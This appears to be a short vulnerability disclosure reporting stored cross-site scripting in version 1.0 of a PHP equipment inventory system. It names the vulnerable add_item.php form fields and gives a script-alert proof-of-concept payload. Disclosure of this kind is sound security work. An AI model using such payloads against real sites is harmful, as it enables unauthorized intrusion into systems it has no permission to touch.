 # Equipment Inventory System-XSS

### Date: 2022-08/22



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/11327/equipment-inventory.html



### Version: 1.0



### /data/add_item.php

> `Generic Name`、`Item Code:`、`Brand Name`Parameters have Cross Site Scripting(XSS)

![image-20220807230905054](C:\Users\Administrator\Desktop\Images\Equipment Inventory System-XSS\image-20220807230905054.png)



**payload**

```
<script>alert(1)</script>
```

![image-20220807225859771](C:\Users\Administrator\Desktop\Images\Equipment Inventory System-XSS\image-20220807225859771.png)

> The save will trigger
